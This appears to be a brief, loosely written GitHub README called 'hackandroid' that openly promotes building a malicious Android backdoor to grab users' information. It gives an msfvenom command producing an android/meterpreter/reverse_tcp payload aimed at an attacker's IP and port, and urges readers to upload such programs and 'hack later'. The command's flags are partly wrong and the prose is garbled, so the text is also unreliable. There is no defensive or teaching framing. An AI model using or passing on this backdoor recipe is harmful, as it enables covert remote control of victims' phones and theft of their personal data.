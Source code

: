 # hackandroid
hackandroid


Creating a malicious programme that launches backdoor to android and grab user info from wifi to all kinda stuff
using msfvenom and upload programe to this page so everyone knows
its not a payload its an backdoor to your device 
==> list your programme
==> upload your programme
==> enjoy now!

==>HACK_LATER!!!


install msfconsole and msfvenom 
run this on terminal msfvenom -p android/meterpreter/reverse_tcp -LHOST <ifconfig on otherterminal(ip)> -LPORT <no ssh(port number)> >> <filename>
  
  venom install in package
